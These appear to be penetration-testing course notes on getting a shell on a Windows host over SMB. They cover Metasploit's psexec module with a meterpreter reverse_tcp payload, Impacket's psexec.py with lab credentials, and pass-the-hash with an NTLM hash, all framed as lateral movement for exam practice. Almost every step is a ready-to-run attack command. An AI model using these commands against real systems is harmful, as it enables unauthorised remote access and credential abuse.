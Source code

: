 ```yaml
---

### 🛡️ Gaining Shell Access through Metasploit

### Summary 📝

- **Objective**: Use Metasploit and `psexec.py` to gain shell access on a Windows machine via SMB, focusing on understanding both automated and manual approaches.
- **Key Concepts**:
    - **Metasploit**: Automates the attack process with `psexec`.
    - **Manual psexec**: Provides flexibility when Metasploit may be blocked.
    - **Privilege escalation**: Leveraging password hashes or credentials to escalate access to administrative privileges.

---
```


### Detailed Notes 📜

1. **Launching Metasploit**:
    - Open Kali Linux terminal:
        
        ```bash
        msfconsole
        
        ```
        
    - Search for `psexec` exploit:
        
        ```bash
        search psexec
        
        ```
        
    - Use the `exploit/windows/smb/psexec` module:
        
        ```bash
        use exploit/windows/smb/psexec
        
        ```
        
2. **Setting Payload**:
    - Most target machines are 64-bit, so use the 64-bit payload:
        
        ```bash
        set payload windows/x64/meterpreter/reverse_tcp
        
        ```
        
3. **Configuring Exploit Parameters**:
    - Set your local machine's IP (LHOST):
        
        ```bash
        set LHOST [Your IP]
        
        ```
        
    - Set target machine’s IP (RHOST):
        
        ```bash
        set RHOSTS 192.168.164.139
        
        ```
        
    - Set domain, username, and password:
        
        ```bash
        set smbdomain MARVEL.local
        set smbuser fcastle
        set smbpass Password1
        
        ```
        
4. **Running the Exploit**:
    - Execute the attack:
        
        ```bash
        run
        
        ```
        
    - Once you get a meterpreter session:
        
        ```bash
        background
        
        ```
        
    - List active sessions:
        
        ```bash
        sessions
        
        ```
        
    - Reopen a session:
        
        ```bash
        sessions [session_id]
        
        ```
        
5. **Escalating to Admin**:
    - Switch to admin credentials:
        
        ```bash
        set smbuser administrator
        set smbpass [hashed_password]
        
        ```
        
    - Unset unnecessary parameters:
        
        ```bash
        unset smbdomain
        
        ```
        
6. **Manual Shell Access ([psexec.py](http://psexec.py/))**:
    - If you prefer manual exploitation, use `psexec.py` from Impacket:
        
        ```bash
        psexec.py MARVEL/fcastle:'Password1'@192.168.164.139
        
        ```
        
7. **Using NTLM Hashes**:
    - If you have the NTLM hash but not the password, use it directly:
        
        ```bash
        psexec.py administrator@192.168.164.139 -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
        
        ```
        

### 📌 Additional Explanation & Key Point 💡

- **Explanation**: Using **SAM hashes** to gain access to other machines is similar to using **domain account credentials** (e.g., usernames and passwords) to move laterally within a network. Both methods exploit the trust relationships that exist in networked systems.
- **Key Point**: Whether using **domain account credentials** or **SAM hashes**, the idea is to leverage compromised credentials to access additional machines within the network, expanding control. This process is a form of **lateral movement**.

---

### Abbreviations & Definitions 🔍

- **SMB (Server Message Block)**: Protocol for sharing files and printers.
- **NTLM (NT LAN Manager)**: Microsoft’s authentication protocol used for password hashing.
- **Meterpreter**: Advanced payload in Metasploit allowing post-exploitation control.
- **psexec**: Tool used to execute processes on remote systems.

---

### Critical Mentions & Exam Traps 🚨

- **🚨 Default Payload**: Ensure you use the `windows/x64/meterpreter/reverse_tcp` payload for 64-bit systems.
- **🚨 Hashes Can Be Used Without Cracking**: You can log in with an NTLM hash without needing the plaintext password—this is crucial for exams.
- **💡 Alternatives to psexec**: If `psexec.py` fails or is blocked, try `wmiexec.py` or `smbexec.py`.
- **💡 Password Complexity**: If a password has special characters, omit it in the command and enter it manually when prompted.

---
